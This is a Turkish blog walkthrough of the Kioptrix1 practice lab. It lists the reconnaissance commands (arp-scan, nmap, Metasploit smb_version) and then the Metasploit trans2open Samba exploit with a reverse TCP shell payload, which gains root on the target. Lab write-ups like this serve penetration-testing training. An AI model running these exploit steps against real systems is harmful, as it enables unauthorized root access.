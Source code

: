 ```yaml
---
title: "[TR] Kioptrix1 - Walkthrough"
date: 2020-10-10 00:24:00 +03:00
tags:
- ctf
- walkthrough
- hacking
---
```


Merhaba arkadaşlar,bugün sizlere Kioptrix1 isimli zafiyetli makineyi ele geçirmeye çalışacağım.


**UYARI!** Kioptrix makinesinin .vmx uzantılı dosyasını not defteri gibi uygulama ile açıp "bridged" kelimesini aratın.Ardından iki tırnak içerisindeki "bridged" kelimesini "nat" ile değiştirin.Aynı zamanda kendi makineninizinde NAT seçeğini ile bağlandığından emin olun.


İlk olarak **ifconfig** komutu ile kendi makinemin IP adresini öğreniyorum.

![Kali LİNUX-2020-10-09-23-43-30-79621c.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-43-30-79621c.png)

Ardından sanal makinemde localhost üzerinden **arp-scan -l** taraması yapıyorum.

![Kali LİNUX-2020-10-09-23-02-50.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-02-50.png)

Evet,Kioptrix1 isimli hedef makinemizin IP Adresini **192.168.75.156** olarak öğrendim.

Şimdi sırada nmap taraması yapmakta.
**nmap -sS -sV  192.168.75.156** komutu ile nmap taramamı başlatıyorum.Bu taramada tcp syn scan isteği ve versiyon tespitini de istemiş oluyorum.

![Kali LİNUX-2020-10-09-23-04-53-8d7406.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-04-53-8d7406.png)

Nmap parametreleri isteği doğrultusunda açık olan portları görebiliyorum şuan.Fakat 139/tcp portunun versiyon tespitini alamadık.Bunu öğrenmek için Metasploit aracını kullanacağım.

Yeni bir komut satırı açıp **msfconsole** komutu ile Metasploit aracını açıyorum.

![Kali LİNUX-2020-10-09-23-07-46.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-07-46.png)

Versiyon tespitini öğrenmek için Auxiliary modülünü kullanacağım.
Komut satırına **show auxiliary** yazarak Auxiliary modülünün içeriğini görüntülüyorum.

![Kali LİNUX-2020-10-09-23-12-24.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-12-24.png)

Bu modül içeriğini baktığımda **scanner/smb/smb_version** modülünü görüyorum.Bunu kullanacağım. 

![Kali LİNUX-2020-10-09-23-13-50.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-13-50.png)

Şimdi sıra bu modülü kullanmakta.Komut satırına **use scanner/smb/smb_version** yazarak bunu yapıyorum.

![Kali LİNUX-2020-10-09-23-14-06-951382.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-06-951382.png)

Bu modülün ayarlamalarını yapacağım çünkü buna hedef makinenin IP adresini tanımlamam gerek.Komut satırına **show options** komutu yazarak ayarlamaları görüntülüyorum.

![Kali LİNUX-2020-10-09-23-14-19-64ce2e.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-19-64ce2e.png)

**set rhosts 192.168.75.156** komutu ile hedef makinenin IP adresini tanımladım.

![Kali LİNUX-2020-10-09-23-14-52.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-14-52.png)
![Kali LİNUX-2020-10-09-23-15-05.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-15-05.png)

Hedef makinemizin IP Adresini tanımladıktan sonra **run** komutu ile bu modülü çalıştıyorum.

![Kali LİNUX-2020-10-09-23-15-17.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-15-17.png)

EVET! Version tespitini yaptık **Samba 2.2.1a**

Şimdi bu versiyona uygun exploit bulmakta.Msfconsole içerisinde **search Samba 2.2** komutu ile arama yapıyorum.

![Kali LİNUX-2020-10-09-23-16-35.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-16-35.png)

Bize uygun exploit seçeneğini buldum gibi.Bu modülü kullanacağım.Bunun için **use exploit/linux/samba/trans2open** komutunu yazarak exploiti kullanacağım.Ama öncesinde exploiti çalıştırabilmek için hedef sistemin IP adresini atayacağım.

![Kali LİNUX-2020-10-09-23-17-45.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-17-45.png)
![Kali LİNUX-2020-10-09-23-18-00.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-18-00.png)

Ip adresini tanımladık gördüğünüz gibi.

![Kali LİNUX-2020-10-09-23-18-08.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-18-08.png)

Şimdi buradaki payload listesini görüntüleyelim.Komut olarak 
**show payloads** yazarak bunu yapıyorum.

![Kali LİNUX-2020-10-09-23-19-33.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-19-33.png)

İçeriğine bakarak bana uygun olan payload olan **linux//x86/shell/reverse_tcp** gibi bunu kullanarak hedef makine üzerinde Reverse Shell almayı deneyeceğim.

![Kali LİNUX-2020-10-09-23-21-17.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-21-17.png)

Ardından **exploit** diyerek shell almaya çalışıyorum.

![Kali LİNUX-2020-10-09-23-21-33.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-21-33.png)

**Whoami** komutu ile root olduğumuzu gördük.Kioptrix1 makinesini başarıyla ele geçirmiş olduk.

![Kali LİNUX-2020-10-09-23-21-42.png](/uploads/Kali%20L%C4%B0NUX-2020-10-09-23-21-42.png)




